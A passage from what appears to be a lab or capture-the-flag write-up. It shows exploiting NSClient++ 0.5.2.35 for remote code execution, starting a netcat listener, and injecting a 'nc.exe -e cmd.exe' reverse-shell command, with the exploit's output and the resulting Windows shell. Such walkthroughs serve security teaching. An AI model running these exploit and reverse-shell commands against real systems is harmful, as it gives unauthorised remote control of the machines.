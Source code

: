 



Since the exploit is cloned to my machine and the netcat executable is on the target, I am able to start the exploit. But first I have to start a netcat listener so I could create a reverse shell.
The command I used for a netcat listerner looks like this: **nc -lvp 1234**


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~]
└─$ nc -lvp 1234
listening on [any] 1234 ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After starting the netcat listener, it just a matter of parsing the right information to the arguments. The command to run the exploit looks like this: **python3 exploit.py -t loclahost -P 8443 -p NjoCYfnHSohg7Q6g -c 'c:\windows\tempt\nc.exe -nv 10.0.2.15 1234 -e cmd.exe'**.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/Documents/Back2Back/nsclient-0.5.2.35-RCE-exploit]
└─$ python3 exploit.py -t 127.0.0.1 -P 8443 -p NjoCYfnHSohg7Q6g -c 'c:\windows\temp\nc.exe -nv 10.0.2.15 1234 -e cmd.exe'
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: lYyeHvneb)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
                                                                                                                    
┌──(eMVee@kali)-[~/Documents/Back2Back/nsclient-0.5.2.35-RCE-exploit]
└─$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The exploit has been finished, so now I have to check mt netcat listener.



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~]
└─$ nc -lvp 1234 
listening on [any] 1234 ...
10.0.2.27: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.27] 49315
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
